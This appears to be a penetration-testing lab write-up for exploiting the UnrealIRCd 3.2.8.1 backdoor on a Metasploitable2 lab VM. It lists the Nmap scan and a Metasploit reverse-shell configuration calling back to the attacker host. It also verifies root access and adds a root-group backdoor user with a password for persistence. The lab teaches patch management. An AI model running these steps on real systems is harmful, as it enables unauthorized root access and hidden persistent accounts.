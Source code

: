 # Exploiting UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

UnrealIRCd 3.2.8.1 is a widely used IRC daemon that was discovered to have a backdoor vulnerability allowing remote attackers to execute arbitrary commands without authentication. This backdoor was introduced maliciously into the source code, affecting many deployments globally.

In this lab, we will exploit the UnrealIRCd backdoor on the Metasploitable2 target machine to gain unauthorized remote shell access. Successfully exploiting this vulnerability demonstrates the risks of using compromised or outdated software and the importance of patch management.

We will begin by verifying the service and version with Nmap, then use Metasploit’s `unreal_ircd_3281_backdoor` module to obtain a root shell, and finally confirm our access by interacting with the target system.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the UnrealIRCd service on the target machine to verify it is vulnerable. Port 6667 is the default IRC port where UnrealIRCd typically runs.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 6667 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `6667` was open on `192.168.100.10`. Crucially, the service running on this port was identified as **UnrealIRCd 3.2.8.1**, which is the specific vulnerable version targeted by this exploit.
    ![Nmap Scan Result](images/Scan.png) 

### 2.2: Metasploit Exploit Search

* **Objective:** Launch Metasploit and search for available exploits related to UnrealIRCd.

* **Commands Executed:**
    ```bash
    msfconsole
    search unrealircd
    ```

* **Results:**
    The search returned the module `exploit/unix/irc/unreal_ircd_3281_backdoor`, which directly targets a backdoor vulnerability in UnrealIRCd versions 3.2.8.1. This exploit allows remote code execution by connecting to the IRC service and sending a specially crafted payload.
    ![Metasploit Search Result](images/Search.png)

### 2.3: Configure and Execute the Exploit

* **Objective:** Configure the exploit module to target `192.168.100.10` and set up a reverse shell payload to gain access to the system.

* **Commands Executed:**
    ```bash
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set PAYLOAD cmd/unix/reverse
    set RHOSTS 192.168.100.10
    set LHOST 192.168.100.5
    set LPORT 4444
    run
    ```

* **Results:**
    The exploit successfully initiated a reverse TCP handler on `192.168.100.5:4444`, and a command shell session was opened (`192.168.100.5:4444 -> 192.168.100.10:xxxxx`). This confirms successful remote code execution.
    ![Exploit Run Result](images/Exploit.png) 

### 2.4: Verify Shell Access and Privileges

* **Objective:** Confirm successful remote shell access and identify the privilege level obtained.

* **Commands Executed (in the newly obtained shell):**
    ```bash
    whoami
    id
    ```

* **Results:**
    The `whoami` command returned `root`, and the `id` command confirmed `uid=0(root) gid=0(root)`. This verified that root-level access was successfully achieved on the Metasploitable2 system.

![Root Access Proof](images/whoami.png) 
### 2.5: Establish Persistence by Adding a Backdoor User

* **Objective:** Create a new user account with root privileges on Metasploitable2, allowing for future authenticated access even if the initial exploit vector is mitigated.

* **Commands Executed (in the root shell):**
    ```bash
    useradd -m -g root -s /bin/bash bdnoah
    echo "bdnoah:bdpass" | chpasswd
    ```

* **Verify the user creation and privileges:**
    ```bash
    cat /etc/passwd | grep bdnoah
    ```

* **Results:**
    The `useradd` command successfully created the `bdnoah` user with its home directory and assigned it to the `root` group. The `chpasswd` command set its password. Verification via `cat /etc/passwd` confirmed the user `bdnoah` with `GID=0` (root privileges).
    ![New User Creation](images/newuser.png)

## 3. Conclusion

This exercise successfully demonstrated the exploitation of the UnrealIRCd 3.2.8.1 backdoor (CVE-2010-2075) on the Metasploitable2 target system. A remote command shell with root-level privileges was obtained. This root-level access was leveraged to establish persistence by creating a new user account with root privileges.

This lab highlights the critical importance of timely patch management and the severe risks associated with running outdated or compromised software. Unpatched vulnerabilities, even in seemingly obscure services like IRC daemons, can provide attackers with full administrative control over a system, leading to significant security breaches.
